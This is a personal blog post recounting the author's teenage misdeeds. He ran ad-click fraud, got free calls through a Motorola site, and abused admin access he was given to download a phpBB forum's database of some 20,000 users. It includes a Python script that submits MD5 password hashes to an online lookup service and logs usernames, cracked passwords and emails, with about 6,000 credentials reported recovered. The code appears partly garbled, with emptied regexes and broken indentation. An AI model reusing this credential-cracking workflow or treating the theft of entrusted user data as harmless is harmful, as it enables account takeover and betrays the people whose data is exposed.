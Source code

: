```yaml
---
layout: post
title: A curious guy getting hands dirty
categories: [programming]
published: false
date: 2012-09-17
markdown: markdown
---
```

If I’m curious now, I was even more with 14 or 15 years old. It was the time when I got bored of my cheap C book and started learning Python with online tutorials. I spent so much time on IRC also, mostly in programming channels (although I almost only talked in those dedicated to Age Of Empires). I met some people doing much more funny things that what I was doing. A group of friends created a script to auto-click on adsense banners. The group was private, but I was invited. All of us had a personal blog, so we used the script to click once on each adsense banner every day, so at least we got 8 or 9 clicks a day. Not much, but It helped me buying a better computer (Athlon 3400+, from a P3 866Mhz) by the end of that year (2004 I think).

Ah, they also got access to a private site from Motorola where we could make free mobile calls, but it only lasted a couple of weeks until they noticed. I remember calling a irc-friend to Puerto Rico and talking with his confused mother…

In one of those channels I met a guy running a big website that it’s still running. In it’s first months, the site had more than 20.000 registered users, and don’t ask me why, he thought it would be great that I helped him managing the forums, so he gave me admin privileges. I went directly to the backups panel, looking for the users database. In less than 2 minutes a ~20Mb file was being downloaded with the first real SQL code I had saw.

When I tried to open it with gedit, my computer froze. I got more luck with vim, but I hated those shell-based text editors. The file was full of entries like this (real copy-paste from original):

{% highlight sql %}
INSERT INTO phpbb_users (user_id, user_active, username, user_password,
user_session_time, user_session_page, user_lastvisit, user_regdate,
user_level, user_posts, user_timezone, user_style, user_lang,
user_dateformat, user_new_privmsg, user_unread_privmsg,
user_last_privmsg, user_login_tries, user_last_login_try, user_emailtime,
user_viewemail, user_attachsig, user_allowhtml, user_allowbbcode,
user_allowsmile, user_allowavatar, user_allow_pm, user_allow_viewonline,
user_notify, user_notify_pm, user_popup_pm, user_rank, user_avatar,
user_avatar_type, user_email, user_icq, user_website, user_from, user_sig,
user_sig_bbcode_uid, user_aim, user_yim, user_msnm, user_occ,
user_interests, user_actkey, user_newpasswd) VALUES('4', '1', '[USERNAME]',
'87f6f9d078c3bc5db5578f3b4add9470', '2147483647', '0', '2147483647',
'2147483647', '0', '0', '0.00', '1', 'english', 'D M d, Y g:i a', '0',
'0', '0', '0', '0', NULL, '0', '1', '0', '1', '1', '1', '1', '1', '0',
'1', '1', '0', '', '0', '[USER_MAIL_ADDRESS]@hotmail.com', '', '', '', '', '', '',
'', '', '', '', '', NULL);
{% endhighlight %}

Obviously I have replaced the username and mail address. There were more than 20.000 entries like that in that file. Passwords were encrypted with MD5, but I knew some online tools like gdataonline (now offline) that could help me finding out the original password. This kind of sites have a huge dictionary of words and common passwords with their corresponding hashes. You search the hash, and get the original string back.

The best thing about gdataonline is that it accepted data via GET and gave the output via XML… That was just perfect for what I had in mind. What if I made a Python script to send the password hashes to gdataonline, and store the successful passwords with their usernames and mail addresses? Since many users use the same password for everything, I would have a really dangerous material. And that was exciting.

First, I made a simple script to split the huge file in 100 parts, so each file would have 200 entries. This had to purpouses:

* The idea of reading and parsing a 20Mb file in python on my slow pc didn’t attract me
* I didn't want to send 20.000 request to gdataonline

I could have got all the (username, mail, hash) tuples with a simple SELECT in SQL, and parse the received XML with pyXML. But I didn’t even consider it, I liked it the hard way, the only way I knew. So after some hours of coding, I got this:

{% highlight python %}
#!/usr/bin/env python
 # -*- coding: iso-8859-15 -*-
 import re
 import urllib
 import os

 def getPasswords():
   successful_passwords = 0
   num = 1

   file = r"inputFile001" #Change this for every file
   text = open(file, "r")
   content = text.read()
   text.close()
   user = re.findall("VALUES.*?;", content)

   output_file = r"outputFile001" #Change this for every file
   foo = open(output_file, "w")

   spaces = " "*32
   foo.write("Nickname" + spaces + "Password" + spaces + "Mail" + "\r")
   foo.write('-' * 90 + "\r")

   for i in user:
     nickname = i.split()[2].strip(",").strip("'")
     mail = i.split()[39].strip(",").strip("'")

     f = urllib.urlopen("http://gdataonline.com/qkhash.php?mode=xml&amp;hash=%s" % i.split()[3].strip(",").strip("'"))
     xml = f.read()
     passwords = re.findall(".*?", xml)

     if passwords: # If we get the original
    password = passwords[0].split("").pop().split("")[0]
         successful_passwords +=1

    foo.write(nickname.ljust(40) + password.ljust(40) + mail.ljust(22))
    foo.write("\r")

     os.system("clear")
     print "Total: %i" % len(user)
     print "Analized: %i" % num
     print "Found: %i" % successful_passwords

     num += 1

   foo.close()
   print "%i passwords have been found" % successful_passwords

 if __name__ == '__main__':
   getPasswords()
{% endhighlight %}

Tachan! Probably not the most beautiful, organized, well documented, optimized or fast code you have seen, but you can imagine what I felt when I opened my just created file (obviously I changed data)…

|**Nickname**|**Password**|**Mail**|
|john|mylove_1234|johny_the_cool@hotmail.com|
|mike|kansas70000|the_big_boy@yahoo.com|
|admin|lalalalaImDaAdmin|admin@thissite.com|
|....|....|....|

I got  ~30% of passwords revealed, 60 passwords per file, 6000 passwords in total.

This was the time I realised how funny and useful programming could be. I didn’t have any other intention that doing something to get a real result, no more ordering lists or math problems. It felt good, I knew that what I had done wasn’t right, and probably was illegal, but it gave me the satisfaction I needed to keep learning, with more enthusiasm than ever.